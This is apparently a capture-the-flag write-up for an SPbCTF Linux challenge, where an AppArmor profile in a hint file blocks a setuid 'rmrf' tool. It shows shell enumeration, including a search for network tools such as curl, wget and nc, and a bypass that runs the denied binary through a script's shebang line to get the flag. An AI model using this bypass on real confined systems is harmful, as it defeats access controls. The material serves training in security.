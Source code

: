 ## Gamearmor (Пиковая драма)

**Category**: easy, linux, security \
**Author**: Lex (@b1n4r9), SPbCTF \

#### Description:
Учёные создали суперкомпьютер, а младший научный сотрудник решил разогнать его до пиковых значений в игре и похвастаться скриншотами на форуме. Всё получилось, но потом сработал механизм защиты — сотрудник не может удалить игру и замести следы. Помогите ему.

```
ssh junior@t-gamearmor-dfr4zybw.spbctf.net
```

Пароль: ***

### Solution

Look for common tools:

```
junior@supercomputer:~$ which $(ls /bin /usr/bin/ /sbin /usr/sbin | grep '^vi$\|vim\|curl\|wget\|^nc$\|netcat\|python\|perl' | sort | uniq)

> /usr/bin/perl
> /usr/bin/perl5.34.0
```

![](img/1.png)

We don't have curl, wget, python, nc that help downlod [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), then create file use cat with end-of-file. Copy and paste code in terminal and send Ctrl+D:

![](img/2.png)

Then run linpeas.sh:
```
junior@supercomputer:~$ chmod +x linpeas.sh
junior@supercomputer:~$ ./linpeas.sh

>Starting linpeas. Caching Writable Folders...
>./linpeas.sh: 469: peass{VARIABLES}: not found
>./linpeas.sh: 877: Syntax error: "(" unexpected (expecting "fi")
```
![](img/3.png)

Ok, this task will return an error when running linpeas.sh.

Try manual check enumeration: os information, crontab, users and groups, sudoers, services, suid/guid perm and other checks.

When find an interesting file with a hint /home/senior/notes.txt:

![](img/4.png)

![](img/5.png)

![](img/6.png)

File contents /home/senior/notes.txt:

```
Еженедельное обновление состояния системы и последние изменения в конфигурации сервера

В связи с последними обновлениями на нашем суперкомпьютерном кластере, заслуживают внимания следующие моменты:

1. Хранение и мониторинг логов: Система настроена на постоянное логирование всех операций с использованием суперкомпьютерных мощностей. Это включает в себя регистрацию всех задач, использованных ресурсов, вычислительной мощности в терафлопсах и других ключевых параметров работы. Ознакомится с логами можно в /var/log/supercomputer.

2. Утилита для чистки логов: Введена специальная утилита rmrf, предназначенная для безопасного удаления устаревших логов. Эта утилита позволяет освободить значительное пространство на диске, что крайне важно для поддержания высокой производительности системы. Особое внимание уделено безопасности при её использовании: утилита запускается строго под контролем системных администраторов.

3. Улучшения безопасности: Последнее обновление системы включало ряд мероприятий по усилению безопасности, в том числе настройку и активацию AppArmor. Добавлено следующее правило, ограничивающая применение специальной утилиты rmrf:

# app-deny
#include <tunables/global>

profile pp-deny flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>

  file,
  capability,
  network,
  unix,
  signal,
  /** ix,

  deny /usr/bin/rmrf x,
}


Заключение:

Текущие обновления улучшили как производительность, так и безопасность нашей суперкомпьютерной инфраструктуры. Непрерывный мониторинг и адаптация новых технологий безопасности позволит нам поддерживать высокий уровень надёжности и эффективности в работе с данными и вычислительными ресурсами. Прошу всех пользователей ознакомиться с обновлениями и следовать новым процедурам безопасности при работе на сервере.

```

Try run /usr/bin/rmrf:

```
junior@supercomputer:~$ ls -la /usr/bin/rmrf
-rwsr-sr-x 1 root root 16760 Apr 20 09:23 /usr/bin/rmrf
junior@supercomputer:~$ 
junior@supercomputer:~$ 
junior@supercomputer:~$ /usr/bin/rmrf
bash: /usr/bin/rmrf: Permission denied

```

![](img/7.png)

AppArmor rules app-deny /usr/bin/rmrf from hint. Try bypass AppArmor using bug when AppArmor don't check the rules for the interpreter with shebang.

```
junior@supercomputer:~$ cat > exploit.sh 
#!/usr/bin/rmrf
junior@supercomputer:~$ chmod +x exploit.sh 
junior@supercomputer:~$ 
junior@supercomputer:~$ ./exploit.sh
>...
>tctf{eVen_APp_ARMOr_c4Nt_PReVEnT_5Illy_usEr_FroM_rMrf}
```
![](img/8.png)
